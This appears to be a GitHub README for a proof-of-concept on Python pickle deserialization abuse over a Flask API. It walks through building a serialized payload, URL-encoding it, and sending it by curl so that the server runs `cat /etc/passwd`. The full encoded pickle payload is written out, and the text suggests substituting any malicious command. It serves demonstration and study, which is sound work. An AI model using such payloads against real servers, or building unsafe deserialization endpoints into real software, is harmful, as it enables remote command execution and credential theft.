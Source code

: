 # API Deserialization Abuse
POC code illustrating a deserialization abuse over an API
 
Steps to produce a Deserialization attack/abuse against the API:
 
Step 1: Print out a serialized, URL encoded string of the command you wish to execute on a remote target (API Server).
- On the API server, install python 2 with apt install python 2.
- Create a python script. This script will produce a serialized output of the adversary’s command/object. In this POC code, the command is `cat /etc/passwd` but you can replace it with any (malicious) command you want.
 
- Chmod the genpickle.py script with 777 rights, and run the script
- Copy the output that appears on screen and paste it into the URLencoder at https://www.urlencoder.org/. Copy this encoded string for use by client in step 2.
 
Step 2. Create the Flask script that will produce the API endpoint URL and deserialize the command object
- On the API server, install pip3 with apt install python-pip3.
- Install flask with pip install flask.
- Chmod the python script api.py
 
Note: You’ll notice the urllibe.parse import in the script. This is required for any POST parameter parsing. I don’t know why, but when POSTing parameters, you need to handle the values/strings differently from when doing a GET with query parameters in the URL. 
 
- Run the flask API service with ./api.py.
- Send the serialized command object to the API server as a parameter value.
- On an API client, perform a test using cURL to see if the API service works. Insert your url-encoded string accordingly.
 
``
GET query: curl <Server_URL>:<Port>/?cmd=<url_encoded_string>
Example curl command (executed from localhost of server) for returning all etc/passwd users and passwords:
curl http://127.0.0.1/?cmd=csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.
``

``
POST query: curl POST <Server_URL>:<Port> -d ‘{“cmd”:“csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.”}’
Example curl command (executed from localhost of server) for returning all etc/passwd users and passwords:
curl http://127.0.0.1/?cmd=csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.
``

Example postman collection is included in this repo. Make sure you change the variable of 'moveit_demo_url' located within the collection itself - point it to your own server URL (http://host/admin).
